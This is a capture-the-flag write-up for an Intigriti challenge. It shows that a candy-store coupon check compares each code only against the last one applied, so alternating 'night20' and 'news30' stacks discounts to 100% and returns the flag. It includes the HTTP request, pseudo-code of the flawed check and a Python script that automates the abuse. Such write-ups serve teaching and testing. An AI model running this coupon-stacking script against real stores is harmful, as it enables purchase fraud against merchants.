


# Intigriti's October Challenge 1026 by [Globules](https://x.com/INTIGRITI)

## Description

The solution:

* Should leverage a vulnerability on the challenge page.
* Shouldn't be self or related to MiTM attacks.
* Should include:
    * The flag in the format INTIGRITI{.*}
    * The payload(s) used
    * Steps to solve (short description / bullet points)
* Should be reported on the Intigriti platform.

Get started:

1. Test your payloads on the [challenge page](https://challenge-1026.challenges.intigriti.io/) & let's capture that flag!

## TL;DR

1. The target is a Halloween-themed candy store. The user has **€66.00** of credit, while the flag item, *The Midnight Collection*, costs **€666.00**.

2. The store offers a 20% coupon, `night20`, and subscribing to the newsletter grants a further 30% coupon, `news30`.

3. Coupons are applied via `POST /api/cart/coupon`. The backend only rejects a coupon if it matches the **most recently applied** one, instead of tracking every coupon used in the transaction.

4. Alternating `night20` and `news30` stacks the discounts until the cart reaches a 100% discount.

5. Checking out the Midnight Collection returns the flag in the receipt.

## Analysis

The target is a web application selling Halloween sweets.
The banner at the top of the page already advertises the first piece of the puzzle: `NIGHT20` gives 20% off the Midnight Collection.
The header also shows the user's available credit: **€66.00**.



The shop lists six products. Five of them are regular sweets priced around €10, while the last one, *The Midnight Collection* (gift box, "only one available"), costs **€666.00**: this is the item holding the flag.



With €66.00 of credit and a €666.00 item, the gap is roughly 90% of the price, far more than any single coupon offers:

* `night20` - 20% discount, advertised on the home page.
* `news30` - 30% discount, granted after subscribing to the newsletter.

Even stacking both once would not be enough, so the goal is to find a way to apply discounts beyond what the store intends.

## Exploit

Coupons are applied to the cart through the following endpoint:

```http
POST /api/cart/coupon HTTP/2
Host: challenge-1026.intigriti.io
Content-Type: application/json
...

{
    "code": "<coupon-code>"
}
```

Applying `night20` works as expected and lowers the cart total by 20%.
Applying `night20` a second time is rejected, which suggests the backend does have some form of coupon-reuse protection.

Applying `news30` right after `night20` is accepted, adding the 30% discount on top.

The interesting part comes next: applying `night20` **again** after `news30` is accepted as well.

This reveals how the restriction is actually implemented: the backend only compares the incoming coupon against the **last applied coupon**. It never tracks the full set of coupons already used in the transaction.
In pseudo-code, the check looks something like this:

```javascript
if (code === cart.lastCoupon) {
    return error("Coupon already applied");
}
cart.lastCoupon = code;
cart.discount += coupons[code];
```

As a consequence, any coupon is accepted as long as it differs from the previous one, so the same two coupons can be reused indefinitely by alternating them:

```text
night20 -> news30 -> night20 -> news30 -> ...
```

Each request adds its discount to the cart, and repeating the alternation lets the discount accumulate until the cart reaches **100%** off.
At that point the €666.00 Midnight Collection costs nothing, well within the €66.00 credit.

Proceeding to checkout completes the purchase, and the flag is returned in the receipt:

    INTIGRITI{094638e6-ba2f-4c50-8bb4-41ced0d5debd}

## Exploit Script

The following Python script automates the exploitation of the coupon stacking vulnerability:

```python
import requests, random

BASE_URL = "https://challenge-1026.challenges.intigriti.io"
NEWSLETTER_URL = f"{BASE_URL}/api/newsletter"
ADD_TO_CART_URL = f"{BASE_URL}/api/cart/items"
APPLY_DISCOUNT_URL = f"{BASE_URL}/api/cart/coupon"
CHECKOUT_URL = f"{BASE_URL}/api/checkout"
SESSION_URL = f"{BASE_URL}/api/session"
STORE_URL = f"{BASE_URL}/store"

s = requests.Session()

# create a session
res = s.get(STORE_URL)
res = s.get(SESSION_URL)

# subscribe to the newsletter
mock_email = f"{random.randbytes(8).hex()}@example.com"
res = s.post(NEWSLETTER_URL, json={"email": mock_email})
newsletter_coupon = res.json().get("code")

# add midnight-vault to the cart
res = s.post(ADD_TO_CART_URL, json={"productId": "midnight-vault"})

# apply coupons until we can checkout
coupons = [newsletter_coupon, "NIGHT20"]
can_checkout = False
i = 0
while not can_checkout:
    res = s.post(APPLY_DISCOUNT_URL, json={"code": coupons[i]})
    can_checkout = res.json().get("cart", {}).get("canCheckout", False)
    i = (i + 1) % len(coupons)

# checkout
res = s.post(CHECKOUT_URL, json={})
print(res.json())
```